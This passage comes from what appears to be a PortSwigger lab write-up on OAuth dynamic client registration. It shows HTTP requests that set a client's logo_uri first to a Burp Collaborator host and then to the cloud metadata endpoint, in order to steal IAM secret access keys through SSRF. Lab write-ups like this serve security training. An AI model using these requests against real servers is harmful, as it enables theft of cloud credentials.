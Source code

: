 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-5/images/Pasted%20image%2020230302201043.png)

Hmm... "204 No Content"

**That being said, we can try to supply a `logo_uri` property with our Burp Collaborator payload.**

- Go to Burp Suite's Collaborator, and copy to clipboard:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-5/images/Pasted%20image%2020230302201210.png)

- Register a new client application with `logo_uri`:

```http
POST /reg HTTP/1.1
Host: oauth-0a2400cc04337b2fc038f7ce02e90099.oauth-server.net
Content-Type: application/json
Content-Length: 137

{
    "redirect_uris": [
        "https://test.com"
    ],
    "logo_uri": "https://lti04hljv02z1dqgkryt8r22htnkbbz0.oastify.com"
}	
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-5/images/Pasted%20image%2020230302201355.png)

- Use that `client_id` to fetch the logo:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-5/images/Pasted%20image%2020230302201501.png)

**Burp Suite's Collaborator:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-5/images/Pasted%20image%2020230302201554.png)

As you can see, we received a HTTP request!

So, the OAuth server is using the `logo_uri` property fetch the logo!

That being said, **we can leverage the `logo_uri` property to permform SSRF (Server-Side Request Forgery)!**

In this lab background, it said:

> To solve the lab, craft an [SSRF attack](https://portswigger.net/web-security/ssrf) to access `http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/` and steal the secret access key for the OAuth provider's cloud environment.

To do so, we can:

- Register a new client application with `logo_uri`:

```http
POST /reg HTTP/1.1
Host: oauth-0a2400cc04337b2fc038f7ce02e90099.oauth-server.net
Content-Type: application/json
Content-Length: 156

{
    "redirect_uris": [
        "https://test.com"
    ],
    "logo_uri": "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/"
}
```
